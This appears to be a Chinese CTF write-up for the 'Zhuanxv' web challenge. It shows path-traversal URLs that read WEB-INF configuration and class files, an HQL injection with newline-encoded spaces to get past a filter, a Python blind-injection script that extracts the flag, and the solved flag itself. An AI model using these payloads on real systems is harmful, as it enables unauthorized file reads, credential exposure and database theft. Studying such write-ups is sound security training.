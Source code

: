 # Zhuanxv

## 思路分析

> 源码没啥东西,发现是java写的网站(Wappalyzer).开始扫目录,发现一个list路径,访问会跳转到一个登陆页面.万能密码,爆破无果,查看css,有一个文件是通过http://61.147.171.105:61333/loadimage?fileName=web_login_bg.jpg来加载的.猜测这里可能存在目录跨越漏洞.

> 访问http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/web.xml获取配置文件.为什么就知道xml位于那个位置,这是因为写java web项目的时候有层级要求,基本上都是按照规范来写的.可以发现网站是用struts2框架写的.

> struts.xml是struts2的核心配置文件,该文件主要负责管理应用中的Action映射,以及该Action包含的Result定义等,因此我们需要读取struts.xml看看,访问http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/struts.xml

> 可以看到有很多class,这就是所谓的映射文件,如访问loadimage路径时候,会去找字节码com.cuitctf.action.DownloadAction文件去加载内容,一一构造payload:

```
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/action/UserLoginAction.class
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/action/DownloadAction.class
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/action/AdminAction.class
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/util/UserOAuth.class
```

> 下载后修改后缀,再使用jadx工具得到源代码.发现UserLoginAction.class反编译出来的内容与登录页面最为相关,中引入了重要的几个包,因此构造payload,拿到源码:

```
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/po/User.class
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/service/UserService.class
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/util/InitApplicationContext.class
```

> User.class反编译后是一个Bean文件,UserLoginAction.class反编译后是登录验证逻辑文件,InitApplicationContext.class反编译后是类加载器文件.可以看到,加载应用的xml配置文件为applicationContext.xml,该文件一般是项目的启动配置文件,包括数据库等,同样构造payload,如下:

```
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/applicationContext.xml
```

> 其中暴露了使用的数据库,数据库账号密码,且其中包含了user.hbm.xml等配置文件,同样将其下载出来:

```
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/user.hbm.xml
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/service/impl/UserServiceImpl.class
http://61.147.171.105:61333/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/dao/impl/UserDaoImpl.class
```

> 可以看到user.hbm.xml暗示了flag在数据库中位置,UserServiceImpl.class反编译后,是对登录信息进行了过滤,UserDaoImpl.class反编译后,是对登录的sql查找

> 上面图的sql语句使用HSQL,什么是HSQL,参考这里:https://www.cnblogs.com/fengyouheng/p/11013013.html.因此构造登录账号密码:

```
from User where name ='admin' or '1'>'0' or name like 'admin' and password = '" + password + "'
```

> UserServiceImpl.class反编译后代码中是对空格进行了过滤,而sql中对回车自动过滤, 因此我们可以将空格字符换成%0A（ascii码表示换行符）.于是使用hackbar进行翻译,得到新的注入sql的payload:

```
admin'%0Aor%0A'1'>'0'%0Aor%0Aname%0Alike%0A'admin
```

## payload

```
import requests

req = requests.session()
 
flag = ''
for i in range(1, 50):
    p = ''
    for j in range(1, 255):
        # (select ascii(substr(id, "+str(i)+", 1)) from Flag where id < 2) < '
        payload = "(select%0Aascii(substr(id," + str(i) + ",1))%0Afrom%0AFlag%0Awhere%0Aid<2)<'" + str(j) + "'"
        #print payload
        url = "http://61.147.171.105:61333/zhuanxvlogin?user.name=admin'%0Aor%0A" + payload + "%0Aor%0Aname%0Alike%0A'admin&user.password=1"
        response = req.get(url)
        if len(response.text) > 20000 and p != '':
            flag += p
            print(i, flag)
            break
        p = chr(j)
```

## flag

> sctf{C46E250926A2DFFD831975396222B08E}

## 参考

> https://blog.csdn.net/l8947943/article/details/122372989
> https://www.cnblogs.com/fengyouheng/p/11013013.html